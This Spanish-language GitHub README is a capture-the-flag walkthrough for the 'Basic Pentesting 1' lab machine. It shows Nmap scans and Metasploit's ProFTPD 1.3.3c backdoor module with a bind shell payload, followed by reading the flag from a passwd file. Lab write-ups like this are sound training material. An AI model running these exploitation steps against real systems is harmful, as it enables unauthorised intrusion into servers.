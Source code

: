 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=550&height=70&lines=Basic_Pentesting_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/basic-pentesting-1,216/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Basic-pentesting-1?q=%2Fbasic_pentesting_1&lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv ctf04.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/172961150-48b8c567-3639-4b18-af1d-7e9bc11889f4.png)

Puertos Abiertos: [21,22,80]

- *Paso 2:* Detección de servicios y su respectiva versión. 
```
nmap -p 21,22,80 -sV ctf04.root-me.org
```
![2](https://user-images.githubusercontent.com/75953873/172961507-2b06c2d6-c57e-411d-9b03-bc9c575c8644.png)

Objetivo: Puerto 21 **->** Servicio FTP **->** Versión **->** ProFTPD 1.3.3c

- *Paso 3:* Búsqueda de exploit y configuración con Metasploit.
```
msfconsole
search ProFTPD 1.3.3c
``` 
![3](https://user-images.githubusercontent.com/75953873/172962236-7d4263ac-aa91-470f-9383-1c15028ebffc.png)

Seleccionar exploit:
```
use exploit/unix/ftp/proftpd_133c_backdoor
``` 

Obtener IP de la máquina a través de un ping:
```
ping -c 2 ctf04.root-me.org
```
![4](https://user-images.githubusercontent.com/75953873/172962461-a82db2a0-7a7a-442a-82cd-fc872ca0e0c6.png)

**IP:** 212.129.29.186

Configurar exploit (RHOSTS):
```
set RHOSTS 212.129.29.186 
```
![5](https://user-images.githubusercontent.com/75953873/172962563-26bb8f18-dc3a-47ee-a92f-246874366a7d.png)

Seleccionar payload:
```
set payload cmd/unix/bind_perl
```
![6](https://user-images.githubusercontent.com/75953873/172962786-257bbd0d-e119-4f03-9857-73b16ad4d200.png)

- *Paso 4:* Ejecutar exploit y obtener acceso.
```
exploit
``` 
![7](https://user-images.githubusercontent.com/75953873/172962925-a7d9f6e4-416b-4423-b2d1-ca5eeebbe729.png)

Localizar fichero `passwd` y extraer flag (key):
```
ls
cat passwd
``` 
![8](https://user-images.githubusercontent.com/75953873/172963153-b2d7dac3-f960-4bfc-ab86-ba80d8b4e449.png)

**Key:** b5fc9e0773f9596578e1ff689109c960

![8](https://user-images.githubusercontent.com/75953873/172520842-29a1669f-f89d-44b4-a818-297d7b1b472f.png)
